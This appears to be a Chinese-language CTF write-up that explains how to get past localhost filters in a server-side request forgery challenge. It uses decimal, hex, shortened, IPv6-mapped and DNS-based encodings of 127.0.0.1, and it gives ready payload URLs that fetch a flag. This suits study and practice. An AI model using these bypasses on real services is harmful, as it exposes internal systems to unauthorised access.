



> 这里记录下我在ssrf中是如何绕过localhost或127.0.0.1的限制
>
> 推荐题目：[CTFPlus-ssrf](https://www.ctfplus.cn/problem-detail/1992805141115310080/description)

本题确实是简单的ssrf,详细解题过程不多说，其它人的wp写得都很精彩，我这里就简单罗列下如何绕过类似`http://127.0.0.1:5000`这样的限制

下述方法其实并不算高深，总结就是给127.0.0.1换了不同皮肤，本质未变

- way1

我们可以先将IP改成二进制，然后再加权处理变成十进制，详细过程如下：

```plaintext
127.0.0.1 的二进制表示：
127    = 01111111
0      = 00000000
0      = 00000000
1      = 00000001

组合：01111111 00000000 00000000 00000001
二进制 01111111000000000000000000000001
= 2^31 + 2^30 + 2^29 + 2^28 + 2^27 + 2^26 + 2^25 + 2^24 + 1
= 2147483648 + 1073741824 + 536870912 + 268435456 + 
  134217728 + 67108864 + 33554432 + 16777216 + 1
= 2130706433
```

那么题目只需要访问`http://靶机.challenge.ctfplus.cn/fetch?url=http://2130706433:5000/flag`就能获取flag



- way2

使用`http://127.1:5000`对本地IP进行缩写，有的时候也能绕过，但本题不可以，猜测出题师傅采取的waf方法是正则匹配`127`

但是呢，可以跳转文章[Mazesec/Rd](https://docs.yo1o.top/training/mazesec/rd/#get-flags)，里面有我利用way2的例子

- way3

使用十六进制转换也可以:

`http://靶机.challenge.ctfplus.cn/fetch?url=http://0x7f000001:5000/flag`



仔细观察的话，会发现十六进制转换十进制后，恰好是方法1里用的那个十进制，因此本方法适用那种出题人ban了way1的情况

- way4

通过IPV4映射到IPV6同样可以实现绕过

`http://靶机.challenge.ctfplus.cn/fetch?url=http://[::ffff:7f00:1]:5000/flag`



进行拆解

| parts     | meanings                             |
| --------- | ------------------------------------ |
| `::ffff:` | IPv4 映射前缀（固定）                |
| `7f00:1`  | IPv4 地址 `127.0.0.1` 的十六进制表示 |

然后细说下IPV4地址的转换

```
7f00:1 拆分为两组：
- 7f00 = 127.0.0 (因为 0x7f = 127, 0x00 = 0)
- 0001 = 0.1 (因为 0x00 = 0, 0x01 = 1)
→ 127.0.0.1
```

因此`[::ffff:7f00:1]` 可以等价127.0.0.1

- way5

这个方法绝对通用，但是并不是很建议，我们如果手里有一份自己的域名，我们大可将域名解析到127.0.0.1，这样的话，让靶机访问该域名，自然能绕过限制跳转到localhost

上述方法是我目前见过的几种，记录下来了，但是肯定还有更精彩的方法，欢迎大家分享
